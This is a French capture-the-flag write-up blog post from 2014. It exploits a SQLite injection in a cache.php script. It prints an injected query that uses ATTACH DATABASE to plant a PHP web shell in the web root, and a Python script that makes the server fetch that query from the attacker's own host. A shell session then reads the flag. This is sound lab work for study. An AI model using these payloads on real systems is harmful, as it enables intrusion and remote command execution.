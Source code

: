 Cette fonction est vulnérable à une injection *SQLite* :-) La longueur de *$title* rend l'attaque impraticable par ce vecteur mais via *$data* on dispose d'autant de place que nécessaire.  

[Un article](http://atta.cked.me/home/sqlite3injectioncheatsheet) présent sur le web décrit une technique d'injection *SQLite* permettant de provoquer la création d'un fichier sur le serveur.  

L'idée est de pouvoir générer la requête suivante avec injection :  

INSERT INTO CACHE VALUES ('t', 'k', 'u', '**', DATETIME('NOW')); ATTACH DATABASE '/var/www/backdoor.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ('<? system($\_GET["cmd"]); ?>');--**', DATETIME('NOW'))  

Pour cela il suffit de placer la partie en rouge dans un fichier *req.txt* sur un serveur web à nous puis de forger une requête avec comme *Host* l'adresse IP de notre serveur :  

```python
import requests

host = "192.168.1.3"

d = {"title": "t", "uri": "http://192.168.1.3/req.txt"}

hdrs = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Host": host
        }

r = requests.post("http://192.168.1.64/cache.php?access=f4fa5dc42fd0b12a098fcc218059e061",
        data=d,
        headers=hdrs)

print r.status_code, r.reason
print r.content
```

Et cela... n'a pas fonctionné car */var/www* ne correspondait finalement pas au *DocumentRoot*. J'ai testé différents sous-dossiers avant de me rendre compte qu'en utilisant simplement un nom de fichier (sans path) ça écrivait dans le même dossier que *cache.php* (donc à la vrai racine web).  

Avec la backdoor PHP ainsi placée on pouvait alors facilement mettre en place un *tshd* et accéder ensuite au serveur :  

```plain
$ ./tsh 192.168.1.64
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ bash
www-data@misc:/var/www/src$ ls
api.php  backdoor.php  blog.php  cache.php  css  deletecomment.php  documents  favicon.ico  fonts  img  index.html  index.php  js  login.php  logout.php
www-data@misc:/var/www/src$ cd ..
www-data@misc:/var/www$ ls
casper.js  db  lib  release  src
www-data@misc:/var/www$ cd / 
www-data@misc:/$ ls
bin  boot  challenges  chroots  dev  etc  flag.txt  home  initrd.img  lib  lost+found  media  mnt  opt  proc  root  run  sbin  selinux  srv  sys  tmp  usr  var  vmlinuz
www-data@misc:/$ cat flag.txt
Flag: TryingCrampFibrous963
```

Elle est pas belle la vie ?

*Published November 18 2014 at 22:11*
